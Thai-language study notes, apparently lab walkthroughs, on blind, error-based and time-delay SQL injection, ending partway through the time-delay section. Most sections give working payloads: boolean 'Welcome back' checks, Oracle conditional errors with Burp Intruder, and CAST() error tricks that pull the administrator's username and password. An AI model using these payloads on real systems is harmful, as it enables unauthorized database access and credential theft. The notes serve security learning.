- ตั้งค่า Grep "Welcome back"
- รันการโจมตี → หาตัวอักษรแรก
- เปลี่ยน offset เป็น 2,3,4... จนครบ 20 ตัว

**ขั้นที่ 5: เข้าสู่ระบบ**
- ใช้รหัสผ่านที่ได้ล็อกอินเป็น administrator

**หลักการ:** ใช้การตอบสนองที่แตกต่างกัน (มี/ไม่มี "Welcome back") เพื่อดึงข้อมูลทีละบิต











**`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`**

**หลักการทำงาน:**

ถ้าส่วนใน () ไม่ return 'a' (ไม่ว่าจะเป็น NULL, error, หรือค่าอื่น) เงื่อนไขทั้งหมดจะเป็น FALSE

1. **หากตาราง `users` มีอยู่จริง:**
   - `(SELECT 'a' FROM users LIMIT 1)` จะส่งคืนค่า `'a'`
   - เงื่อนไข `'a' = 'a'` เป็นจริง → เห็น "Welcome back"

2. **หากไม่มีตาราง `users`:**
   - `(SELECT 'a' FROM users LIMIT 1)` จะเกิด SQL error เช่น "Table 'users' doesn't exist"
   - เงื่อนไขทั้งหมดเป็นเท็จ → ไม่เห็น "Welcome back"

**ทำไมใช้ `'a'` แทนที่จะใช้ `*`?**
- เราไม่สนใจข้อมูลจริงในตาราง แค่อยากรู้ว่าตารางมีอยู่หรือไม่
- `SELECT 'a'` จะส่งคืนค่าคงที่ `'a'` เสมอ (ถ้าตารางมีอยู่)
- `LIMIT 1` ทำให้แน่ใจว่าได้แค่แถวเดียว

**วิธีอื่นที่ใช้ได้:**
- `TrackingId=xyz' AND (SELECT COUNT(*) FROM users)>=0='1`
- `TrackingId=xyz' AND (SELECT 1 FROM users LIMIT 1)=1`












# Error-based SQL Injection คืออะไร?

**Error-based SQL injection** เป็นเทคนิคการโจมตีที่ใช้ข้อความแสดงข้อผิดพลาด (error messages) เพื่อดึงข้อมูลที่เป็นความลับออกมาจากฐานข้อมูล แม้จะเป็นสถานการณ์ที่เราไม่เห็นผลลัพธ์โดยตรงก็ตาม

## ประเภทของ Error-based SQL Injection

### 1. การใช้ Error Messages แบบ Boolean
- เราสามารถใช้ข้อผิดพลาดเพื่อตรวจสอบว่าเงื่อนไขที่เราใส่เข้าไปเป็นจริงหรือเท็จ
- ถ้าเงื่อนไขเป็นจริง → เกิด error
- ถ้าเงื่อนไขเป็นเท็จ → ไม่เกิด error

### 2. การดึงข้อมูลผ่าน Error Messages
- บางครั้ง error messages จะแสดงข้อมูลที่เราต้องการออกมาให้เห็นเลย
- ทำให้ blind SQL injection กลายเป็น visible injection

## ตัวอย่างการใช้งาน: Conditional Errors

สมมติว่าเราส่ง request สองครั้งด้วย cookie ที่แตกต่างกัน:

```sql
-- Request แรก (เงื่อนไขเท็จ)
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a

-- Request สอง (เงื่อนไขจริง)  
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

### อธิบายการทำงาน:

**Request แรก:**
- เงื่อนไข `(1=2)` เป็นเท็จ
- `CASE` จะ return `'a'`
- ไม่เกิด error

**Request สอง:**
- เงื่อนไข `(1=1)` เป็นจริง
- `CASE` จะ return `1/0` 
- เกิด divide-by-zero error

ถ้าการตอบสนองของเว็บไซต์แตกต่างกันเมื่อเกิด error เราก็จะรู้ว่าเงื่อนไขที่เราใส่ไปเป็นจริงหรือเท็จ

## การดึงข้อมูลทีละตัวอักษร

เราสามารถใช้เทคนิคนี้ดึงข้อมูลทีละตัวอักษรได้:

```sql
xyz' AND (SELECT CASE 
    WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') 
    THEN 1/0 
    ELSE 'a' 
    END FROM Users)='a
```

### อธิบายโค้ดนี้:
- ตรวจสอบว่า username เป็น 'Administrator' หรือไม่
- และตัวอักษรแรกของ password มีค่ามากกว่า 'm' หรือไม่
- ถ้าทั้งสองเงื่อนไขเป็นจริง → เกิด error (1/0)
- ถ้าไม่ → ไม่เกิด error

## ข้อควรจำ

> **หมายเหตุ:** มีหลายวิธีการสร้าง conditional errors และเทคนิคที่แตกต่างกันจะใช้ได้ดีกับฐานข้อมูลประเภทต่างๆ ควรดู SQL injection cheat sheet เพื่อดูรายละเอียดเพิ่มเติม

Error-based SQL injection เป็นเทคนิคที่มีประสิทธิภาพมาก เพราะแม้เราจะไม่เห็นข้อมูลโดยตรง แต่เราสามารถใช้ความแตกต่างของ error messages เพื่อค่อยๆ ดึงข้อมูลออกมาได้ทีละนิด




# วิธีการแก้ปัญหา Error-based SQL Injection แบบละเอียด

## ขั้นตอนที่ 1: ทดสอบหา SQL Injection ขั้นพื้นฐาน

**เริ่มต้นด้วยการเข้าไปที่หน้าแรกของเว็บไซต์ และใช้ Burp Suite จับ request ที่มี TrackingId cookie**

สมมติว่าค่าเดิมคือ:
```
TrackingId=xyz
```

### ทดสอบเบื้องต้น:

**1. ใส่ single quote เพื่อดู error:**
```
TrackingId=xyz'
```
→ ถ้าเกิด error แสดงว่าเว็บไซต์อาจมีช่องโหว่

**2. ใส่ double quotes เพื่อแก้ไข syntax:**
```
TrackingId=xyz''
```
→ ถ้า error หายไป แสดงว่าเราสามารถควบคุม SQL syntax ได้

## ขั้นตอนที่ 2: ยืนยันว่าเป็น SQL Injection จริงๆ

**ทดสอบด้วย valid SQL syntax:**
```
TrackingId=xyz'||(SELECT '')||'
```

ถ้ายังมี error อาจเป็นเพราะประเภทของฐานข้อมูล

**ทดสอบกับ Oracle database (ต้องมีชื่อตาราง):**
```
TrackingId=xyz'||(SELECT '' FROM dual)||'
```
→ ถ้า error หายไป แสดงว่าเป็น Oracle database

**ทดสอบด้วยตารางที่ไม่มีจริง:**
```
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
```
→ ถ้าเกิด error แสดงว่าระบบประมวลผล SQL จริงๆ

## ขั้นตอนที่ 3: ทดสอบหาตารางที่มีอยู่

**ทดสอบว่ามีตาราง users หรือไม่:**
```
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
→ ถ้าไม่มี error แสดงว่ามีตาราง users

*หมายเหตุ: `WHERE ROWNUM = 1` ใช้เพื่อจำกัดผลลัพธ์ให้เป็นแค่ 1 แถว*

## ขั้นตอนที่ 4: ทดสอบ Conditional Errors

**ทดสอบเงื่อนไขที่เป็นจริง:**
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
→ ควรเกิด error เพราะ 1=1 เป็นจริง

**ทดสอบเงื่อนไขที่เป็นเท็จ:**
```
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
→ ไม่ควรเกิด error เพราะ 1=2 เป็นเท็จ

## ขั้นตอนที่ 5: ค้นหา Username

**ตรวจสอบว่ามี administrator หรือไม่:**
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
→ ถ้าเกิด error แสดงว่ามี user ชื่อ administrator

## ขั้นตอนที่ 6: หาความยาวของ Password

**เริ่มจากทดสอบว่า password ยาวกว่า 1 ตัวอักษรหรือไม่:**
```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

**ทดสอบต่อไปเรื่อยๆ:**
```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

*ทำไปเรื่อยๆ จนกว่าจะไม่เกิด error แล้วจะรู้ความยาวของ password (ในกรณีนี้คือ 20 ตัวอักษร)*

## ขั้นตอนที่ 7: ใช้ Burp Intruder หา Password

**ส่ง request ไปที่ Burp Intruder และเปลี่ยน cookie เป็น:**
```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

**ใส่ payload position markers รอบตัวอักษร 'a':**
```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

### การตั้งค่า Burp Intruder:
- เลือก payload type เป็น "Simple list" 
- เพิ่ม payload a-z และ 0-9
- กดปุ่ม "Start attack"

### การอ่านผลลัพธ์:
- **HTTP 500** = เกิด error = ตัวอักษรถูกต้อง
- **HTTP 200** = ไม่เกิด error = ตัวอักษรผิด

## ขั้นตอนที่ 8: หาตัวอักษรที่เหลือ

**เปลี่ยน offset จาก 1 เป็น 2 เพื่อหาตัวอักษรตัวที่ 2:**
```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

*ทำซ้ำกระบวนการนี้สำหรับ offset 3, 4, 5... จนครบทั้ง 20 ตัวอักษร*

## ขั้นตอนสุดท้าย: เข้าสู่ระบบ

**เมื่อได้ password ครบแล้ว:**
1. คลิกที่ "My account" 
2. ใส่ username: `administrator`
3. ใส่ password ที่หาได้
4. เข้าสู่ระบบสำเร็จ!

---

## สรุปหลักการสำคัญ

- **Error-based SQL injection** ใช้ประโยชน์จากข้อความ error เพื่อดึงข้อมูル
- ใช้ `CASE WHEN` เพื่อสร้าง conditional errors
- `TO_CHAR(1/0)` ใช้สร้าง divide-by-zero error ใน Oracle
- `SUBSTR(password,position,1)` ใช้ดึงตัวอักษรทีละตัว
- Burp Intruder ช่วยทำให้การทดสอบหลายๆ ค่าเป็นไปโดยอัตโนมัติ


# การดึงข้อมูลผ่าน Verbose SQL Error Messages

## อะไรคือ Verbose Error Messages?

บางครั้งฐานข้อมูลถูกตั้งค่าผิดพลาด ทำให้แสดงข้อความ error ที่มีรายละเอียดมากเกินไป ข้อความเหล่านี้อาจเปิดเผยข้อมูลที่เป็นประโยชน์กับผู้โจมตี

## ตัวอย่างการเปิดเผย Query Structure

สมมติว่าเราใส่ single quote ลงใน parameter `id` แล้วเกิด error นี้:

```
Unterminated string literal started at position 52 in SQL 
SELECT * FROM tracking WHERE id = '''. Expected char
```

### สิ่งที่เราได้รู้จาก Error นี้:

1. **Query เต็มๆ**: `SELECT * FROM tracking WHERE id = '...'`
2. **โครงสร้าง**: เราใส่ข้อมูลลงใน single-quoted string ใน WHERE clause
3. **วิธีแก้**: เราสามารถ comment ส่วนที่เหลือออกเพื่อป้องกัน syntax error

ตัวอย่างการใช้ประโยชน์:
```sql
' OR 1=1 --
```

## การใช้ CAST() Function เพื่อดึงข้อมูล

### หลักการทำงาน:
`CAST()` function ใช้แปลงข้อมูลจากประเภทหนึ่งไปอีกประเภทหนึ่ง เมื่อเราพยายามแปลงข้อมูลที่แปลงไม่ได้ ระบบจะ error และแสดงข้อมูลที่เราต้องการ

### ตัวอย่าง Query:
```sql
CAST((SELECT example_column FROM example_table) AS int)
```

### สิ่งที่เกิดขึ้น:
1. `SELECT example_column FROM example_table` ดึงข้อมูลออกมา (สมมติได้ "Example data")
2. `CAST(... AS int)` พยายามแปลง string เป็น integer
3. เนื่องจาก "Example data" แปลงเป็น int ไม่ได้
4. ระบบจึง error และแสดงข้อมูลออกมา:

```
ERROR: invalid input syntax for type integer: "Example data"
```

## ประโยชน์ของเทคนิคนี้

### 1. เปลี่ยน Blind Injection เป็น Visible
- ปกติเราไม่เห็นข้อมูลโดยตรง
- แต่ด้วย CAST() error เราจะเห็นข้อมูลในข้อความ error

### 2. แก้ปัญหา Character Limit
- บางครั้งเราไม่สามารถใส่ query ยาวๆ ได้
- CAST() ใช้ query สั้นๆ แต่ได้ผลลัพธ์เยอะ

## ตัวอย่างการใช้งานจริง

### หา Database Version:
```sql
' AND CAST((SELECT @@version) AS int)--
```

### หา Table Names:
```sql
' AND CAST((SELECT table_name FROM information_schema.tables LIMIT 1) AS int)--
```

### หา Column Names:
```sql
' AND CAST((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1) AS int)--
```

### ดึงข้อมูล User:
```sql
' AND CAST((SELECT username FROM users LIMIT 1) AS int)--
```

### ดึงข้อมูล Password:
```sql
' AND CAST((SELECT password FROM users WHERE username='admin') AS int)--
```

## เทคนิคขั้นสูง

### ใช้ CONCAT() ดึงหลายข้อมูลพร้อมกัน:
```sql
' AND CAST((SELECT CONCAT(username,':',password) FROM users LIMIT 1) AS int)--
```

### ใช้ GROUP_CONCAT() ดึงข้อมูลทั้งหมด (MySQL):
```sql
' AND CAST((SELECT GROUP_CONCAT(username) FROM users) AS int)--
```

### ใช้ STRING_AGG() สำหรับ PostgreSQL:
```sql
' AND CAST((SELECT STRING_AGG(username,',') FROM users) AS int)--
```

## ข้อดีของ Verbose Error Messages

1. **ได้ข้อมูลทันที** - ไม่ต้องเดาทีละบิต
2. **ใช้ Query สั้น** - เหมาะกับระบบที่จำกัดความยาว
3. **เข้าใจง่าย** - เห็นผลลัพธ์ชัดเจน
4. **รวดเร็ว** - ไม่ต้องใช้เวลานานเหมือน Blind Injection

## ข้อระวัง

- ไม่ใช่ทุกระบบที่จะแสดง verbose errors
- บางระบบอาจปิดการแสดง error messages
- ต้องรู้จัก data types ของฐานข้อมูลที่โจมตี

## สรุป

Verbose SQL error messages เป็นช่องโหว่ที่เกิดจากการตั้งค่าฐานข้อมูลผิดพลาด การใช้ `CAST()` function เพื่อสร้าง type conversion errors เป็นเทคนิคที่มีประสิทธิภาพสูงในการดึงข้อมูลออกมาโดยตรง ทำให้ blind SQL injection กลายเป็น visible injection ได้อย่างรวดเร็ว!


# วิธีการแก้ปัญหา Verbose SQL Error Messages แบบทีละขั้นตอน

## ขั้นตอนที่ 1-2: สำรวจและหา TrackingId Cookie

- ใช้ Burp's built-in browser เข้าไปสำรวจเว็บไซต์
- ไปที่ **Proxy > HTTP history** หา `GET /` request ที่มี `TrackingId` cookie

## ขั้นตอนที่ 3: ทดสอบ SQL Injection เบื้องต้น

**ใส่ single quote ต่อท้าย TrackingId:**
```
TrackingId=ogAZZfxtOKUELbuJ'
```

## ขั้นตอนที่ 4: อ่าน Verbose Error Message

**ผลลัพธ์ที่ได้จาก error:**
- เห็น SQL query เต็มๆ รวมถึงค่าของ cookie เรา
- รู้ว่ามี unclosed string literal
- **สังเกต**: ข้อมูลของเราอยู่ใน single-quoted string

## ขั้นตอนที่ 5-6: แก้ไข Syntax Error

**เพิ่ม comment เพื่อตัดส่วนที่เหลือทิ้ง:**
```
TrackingId=ogAZZfxtOKUELbuJ'--
```
→ ส่ง request แล้วยืนยันว่าไม่มี error แล้ว = query ถูกต้องแล้ว

## ขั้นตอนที่ 7-8: ทดสอบ CAST() Function

**เพิ่ม SELECT subquery และใช้ CAST():**
```
TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--
```

**ผลลัพธ์:** เกิด error ใหม่บอกว่า AND condition ต้องเป็น boolean expression

## ขั้นตอนที่ 9-10: แก้ไข Boolean Expression

**เพิ่ม comparison operator:**
```
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--
```
→ ส่ง request แล้วยืนยันว่าไม่มี error = query ถูกต้อง

## ขั้นตอนที่ 11-12: ลองดึงข้อมูล Username

**แก้ไข SELECT เพื่อดึง username:**
```
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--
```

**ปัญหาที่เกิดขึ้น:**
- เกิด error message เดิม
- Query ถูกตัดทอนเพราะมีข้อจำกัดจำนวนตัวอักษร
- comment characters หายไป

## ขั้นตอนที่ 13-14: ลบค่าเดิมเพื่อประหยัดที่ว่าง

**ลบค่าเดิมของ TrackingId:**
```
TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
```

**ผลลัพธ์:** 
- ได้ error message ใหม่จากฐานข้อมูล
- Query ทำงานได้แล้ว แต่ return มากกว่า 1 แถว

## ขั้นตอนที่ 15-16: จำกัดผลลัพธ์เป็น 1 แถว

**เพิ่ม LIMIT 1:**
```
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

**ผลลัพธ์สำคัญ:**
```
ERROR: invalid input syntax for type integer: "administrator"
```
🎉 **ได้ username แรกแล้ว = "administrator"**

## ขั้นตอนที่ 17: ดึง Password ของ Administrator

**แก้ไข query เพื่อดึง password:**
```
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

**ผลลัพธ์:**
```
ERROR: invalid input syntax for type integer: "[password ของ administrator]"
```
🎉 **ได้ password แล้ว!**

## ขั้นตอนที่ 18: เข้าสู่ระบบ

**ใช้ข้อมูลที่ได้เข้าสู่ระบบ:**
- Username: `administrator`
- Password: `[password ที่ได้จาก error message]`

---

## สรุปเทคนิคสำคัญที่ใช้

### 1. การจัดการ Character Limit
```
# จากเดิม
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--

# เป็น
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

### 2. การใช้ CAST() เพื่อดึงข้อมูล
```sql
CAST((SELECT [column] FROM [table] LIMIT 1) AS int)
```

### 3. การแก้ปัญหา Multiple Rows
```sql
SELECT username FROM users LIMIT 1  -- ดึงแค่แถวแรก
```

### 4. Boolean Expression ที่ถูกต้อง
```sql
AND 1=CAST(...)  -- ไม่ใช่แค่ AND CAST(...)
```

## ข้อดีของเทคนิคนี้

1. **รวดเร็ว** - ได้ข้อมูลทันทีจาก error message
2. **ประหยัดที่ว่าง** - ใช้ query สั้นๆ เมื่อมีข้อจำกัดตัวอักษร  
3. **ชัดเจน** - เห็นข้อมูลจริงใน error message
4. **ไม่ต้องเดา** - ไม่ต้องทำ brute force ทีละตัวอักษร

เทคนิคนี้แสดงให้เห็นว่าการตั้งค่าฐานข้อมูลผิดพลาด (แสดง verbose errors) สามารถเปลี่ยน blind SQL injection ให้กลายเป็น visible injection ได้อย่างง่ายดาย!







# การใช้ Time Delays ใน Blind SQL Injection

## เมื่อไหร่ที่ต้องใช้เทคนิคนี้?

บางครั้งแอปพลิเคชันจะจัดการ database errors ได้ดี ทำให้ไม่เห็นความแตกต่างในการตอบสนอง เทคนิค conditional errors จึงใช้ไม่ได้

**ในสถานการณ์นี้** เราสามารถใช้ **time delays** แทน โดยการสร้างความหน่วงเวลาตามเงื่อนไขที่เราต้องการทดสอบ

## หลักการทำงาน

- SQL queries ปกติจะถูกประมวลผลแบบ synchronous
- การทำให้ SQL query ช้าลง จะทำให้ HTTP response ช้าตามไปด้วย
- เราสามารถใช้เวลาที่ใช้ในการตอบสนองเป็นตัวบอกว่าเงื่อนไขเป็นจริงหรือเท็จ

## ตัวอย่างสำหรับ Microsoft SQL Server

### การทดสอบเบื้องต้น:

**เงื่อนไขที่เป็นเท็จ (ไม่ควรเกิด delay):**
```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
```

**เงื่อนไขที่เป็นจริง (ควรเกิด delay 10 วินาที):**
```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

